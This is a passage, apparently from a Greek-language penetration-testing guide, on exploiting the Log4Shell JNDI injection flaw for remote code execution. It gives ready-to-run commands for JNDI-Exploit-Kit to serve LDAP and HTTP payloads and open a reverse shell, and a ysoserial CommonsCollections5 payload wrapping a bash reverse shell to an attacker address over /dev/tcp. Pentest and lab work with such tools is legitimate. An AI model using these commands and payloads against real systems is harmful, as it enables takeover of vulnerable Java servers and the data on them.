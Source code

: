 **Θυμηθείτε να ελέγξετε το `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` για άλλες επιλογές εκμετάλλευσης. Επιπλέον, σε περίπτωση που το χρειαστείτε, μπορείτε να αλλάξετε την πόρτα των διακομιστών LDAP και HTTP.**

### RCE - JNDI-Exploit-Kit <a href="#rce__jndiexploitkit_33" id="rce__jndiexploitkit_33"></a>

Με παρόμοιο τρόπο με την προηγούμενη εκμετάλλευση, μπορείτε να προσπαθήσετε να χρησιμοποιήσετε το [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) για να εκμεταλλευτείτε αυτήν την ευπάθεια.\
Μπορείτε να δημιουργήσετε τις διευθύνσεις URL που θα στείλετε στο θύμα εκτελώντας:
```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```
_Αυτή η επίθεση χρησιμοποιώντας ένα προσαρμοσμένο παραγόμενο αντικείμενο java θα λειτουργήσει σε εργαστήρια όπως το **THM solar room**. Ωστόσο, αυτό γενικά δεν θα λειτουργήσει (καθώς από προεπιλογή η Java δεν είναι ρυθμισμένη να φορτώνει απομακρυσμένο κώδικα χρησιμοποιώντας LDAP) νομίζω επειδή δεν εκμεταλλεύεται μια αξιόπιστη κλάση για να εκτελέσει αυθαίρετο κώδικα._

### RCE - JNDI-Injection-Exploit-Plus

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus) είναι ένα άλλο εργαλείο για τη δημιουργία **λειτουργικών συνδέσμων JNDI** και την παροχή υπηρεσιών υποβάθρου ξεκινώντας RMI server, LDAP server και HTTP server.\

### RCE - ysoserial & JNDI-Exploit-Kit

Αυτή η επιλογή είναι πραγματικά χρήσιμη για να επιτεθεί σε **εκδόσεις Java που είναι ρυθμισμένες να εμπιστεύονται μόνο συγκεκριμένες κλάσεις και όχι όλους**. Επομένως, **ysoserial** θα χρησιμοποιηθεί για να δημιουργήσει **σειριοποιήσεις αξιόπιστων κλάσεων** που μπορούν να χρησιμοποιηθούν ως gadgets για να **εκτελέσουν αυθαίρετο κώδικα** (_η αξιόπιστη κλάση που εκμεταλλεύεται από το ysoserial πρέπει να χρησιμοποιείται από το θύμα java πρόγραμμα ώστε να λειτουργήσει η εκμετάλλευση_).

Χρησιμοποιώντας **ysoserial** ή [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified) μπορείτε να δημιουργήσετε την εκμετάλλευση αποσειριοποίησης που θα κατεβεί από το JNDI:
```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```
Χρησιμοποιήστε το [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) για να δημιουργήσετε **JNDI links** όπου η εκμετάλλευση θα περιμένει συνδέσεις από τις ευάλωτες μηχανές. Μπορείτε να σερβίρετε **διαφορετικές εκμεταλλεύσεις που μπορούν να παραχθούν αυτόματα** από το JNDI-Exploit-Kit ή ακόμα και τα **δικά σας payloads αποσυμπίεσης** (παραγόμενα από εσάς ή το ysoserial).
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```